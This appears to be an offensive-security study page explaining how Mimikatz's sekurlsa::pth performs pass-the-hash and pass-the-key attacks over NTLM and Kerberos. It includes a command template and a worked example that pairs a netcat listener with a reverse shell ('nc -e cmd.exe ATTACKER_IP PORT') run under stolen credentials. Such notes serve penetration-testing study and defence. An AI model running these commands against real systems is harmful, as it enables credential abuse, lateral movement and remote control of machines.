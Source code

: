# sekurlsa::pth

{% embed url="https://www.praetorian.com/blog/inside-mimikatz-part1/" %}

{% embed url="https://www.praetorian.com/blog/inside-mimikatz-part2/" %}

### Overview of how _Mimikatz_ implements the pass-the-hash technique

The `sekurlsa::pth` module allows an attacker to impersonate a user by spawning a new logon session on the local machine, and associating the attacker’s supplied credentials with that session. It will then launch a process specified by the attacker (reverse shell, etc.) under the context of the new forged session.

This entire process happens locally, and no external authentication is performed at this stage. However, subsequent network requests made from the new session will use the injected credentials, allowing us to perform lateral movement and other actions without knowing the actual password.

#### Technical details

The `sekurlsa::pth` method performs a **Pass-the-Hash** or **Pass-the-Key** attack for NTLM and Kerberos authentication respectively, that depends on the provided options (eg. `/ntlm` , `/rc4` , etc.).

Any external network connections (eg. `schtasks` , `sc.exe` , etc.) executed from that forged logon session will automatically use the injected credentials, giving us access as that particular user on the remote machine.

**a. Using stolen NTLM hash with NetNTLM authentication**&#x20;

This relates to the _**Pass-the-Hash** attack._

1. When we receive a challenge from the remote server, the injected NTLM hash will be used to create the challenge response&#x20;
2. Since we are using the NTLM hash of the target user, we can authenticate as that particular user

**b. Using stolen encryption key with Kerberos authentication**

This relates to the _**Pass-the-Key**_ and _**Overpass-the-Hash**_ attac&#x6B;_._

1. Given that we have extracted the Kerberos encryption key, it can be used to encrypt the timestamp that is required for the **TGT** request
2. The **KDC** will then respond with the **TGT** and a **Session Key**
3. Subsequently, we can use the retrieved values to request for a **TGS** as the user stored in the Kerberos encryption key in the first step

#### Basic command

{% code overflow="wrap" %}
```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /<xxxx>:<hash> /run:"<payload>"
```
{% endcode %}

* `<xxxx>:hash` can be `/ntlm:<hash>` , `/aes128:<hash>` , etc.
* `/run` allows us to provide a payload to be executed locally with the injected credentials
  * this will usually be a reverse shell connection

#### Example

Suppose we have found a user's NTLM hash using the `lsadump::sam` or `sekurlsa::msv` methods. We can use the found hash to retrieve a logon session as the user.

First, we need to establish a listener to catch the shell:

```sh
$ nc -lvnp PORT
```

Next, perform PtH:

{% code overflow="wrap" %}
```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /<xxxx>:<hash> /run:"nc -e cmd.exe ATTACKER_IP PORT" 
```
{% endcode %}

From the shell session established:

Note that if we execute the `whoami` command, we will still see the original user we were using before performing the attack, but any commands executed from this session will use the injected credentials.

